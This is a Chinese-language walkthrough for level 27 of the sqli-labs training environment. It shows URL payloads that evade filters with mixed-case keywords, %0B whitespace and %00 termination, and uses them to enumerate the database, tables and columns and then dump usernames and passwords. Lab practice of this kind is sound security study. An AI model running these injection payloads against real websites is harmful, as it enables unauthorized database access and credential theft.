

# Less - 27

---

# 通关教程

---

## 1、判断闭合

---

查看源码，可以看到该关卡的代码，如下

​​

SQL的查询语句如下

​​

为单引号字符型注入

---

## 2、查看当前数据库

---

```bash
http://192.168.225.132/sqli-labs/Less-27/?id=0'unIon%0BSelEcT%0B1,2,database();%00
```

​​

---

## 3、查看数据表

---

```bash
http://192.168.225.132/sqli-labs/Less-27/?id=0'unIon%0BSelEcT%0B1,2,(sELect (group_concat(table_name)) from (information_schema.tables) where (table_schema='security'));%00
```

​​

---

## 4、查看users表下的所有字段

---

```bash
http://192.168.225.132/sqli-labs/Less-27/?id=0'unIon%0BSelEcT%0B1,2,(sELect (group_concat(column_name)) from (information_schema.columns) where (table_name='users'));%00
```

​​

---

## 5、查看username,password字段的值

---

```bash
http://192.168.225.132/sqli-labs/Less-27/?id=0'unIon%0BSelEcT%0B1,2,(sELect (group_concat(username,password)) from (security.users));%00
```

​​

‍
